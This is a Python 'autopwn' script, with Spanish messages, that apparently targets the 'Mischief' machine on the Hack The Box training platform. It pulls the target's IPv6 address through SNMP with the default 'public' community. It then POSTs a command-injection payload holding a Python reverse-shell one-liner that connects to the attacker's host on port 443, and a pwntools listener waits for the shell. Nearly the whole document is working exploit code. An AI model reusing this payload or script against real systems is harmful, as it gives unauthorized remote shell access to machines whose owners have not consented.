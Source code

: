 ```python
#!/usr/bin/python3

from pwn import *
import sys,signal,os,requests

## Ctrl + C
def def_handler(sig, frame):
    print("[!] Saliendo...")
    sys.exit(1)
    
signal.signal(signal.SIGINT,def_handler)

#Variables globales 
address = ''
burp = {'http': 'http://localhost:8080'}

def makeRequest():
    url = f"http://[{address}]/"
    
    post_data = {
            'command':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::1000",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''
            }

    requests.post(url,data=post_data, proxies = burp)
    

if __name__ == '__main__':
    
    p1 = log.progress("Mischief autopwn to www-data")
    p1.status("Ganando acceso como www-data")
    time.sleep(1)
    p1.status("Obteniendo ipv6 de la máquina víctima")

    addressdump = os.popen('snmpbulkwalk -c public -v2c 10.10.10.92 ipAddressType | grep "de:ad" | grep -oP \'".*?"\' | tr -d \'":\'').read()
    
    it = 0

    for letter in addressdump:
        if it !=0 and it%4 == 0 :
            address += ':'
        it+=1
        if letter != ':':
            address += letter

    address = address[:-2] 
    
    print(f"[*] Machine current ipv6 address: {address}")
    
    try:
        threading.Thread(target=makeRequest, args=()).start()
    
    except Exception as e:
        log.error(str(e))

    shell = listen(443, timeout=20).wait_for_connection()

    if shell.sock is None:
        p1.failure("No ha sido posible establecer la conexion")
        sys.exit(1)

```